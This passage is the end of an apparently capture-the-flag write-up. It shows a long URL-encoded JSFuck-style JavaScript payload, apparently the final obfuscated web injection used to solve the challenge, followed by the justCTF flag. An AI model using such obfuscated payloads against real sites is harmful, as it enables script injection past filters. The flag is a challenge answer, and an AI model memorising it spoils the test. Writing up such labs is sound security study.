5d%5d%2b%28%28%2b%5b%5d%29%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%5d%5d%28%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%21%2b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%2b%5b%5d%5d%2b%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%29%3b%79%3d%60
```

# Flag

>[!success] Flag
> `justCTF{M4nY_L4y3rS_M4nY_f4ilur3s_ae5bda97-8543-4a4b-84bf-22c6a0df6bdf}`
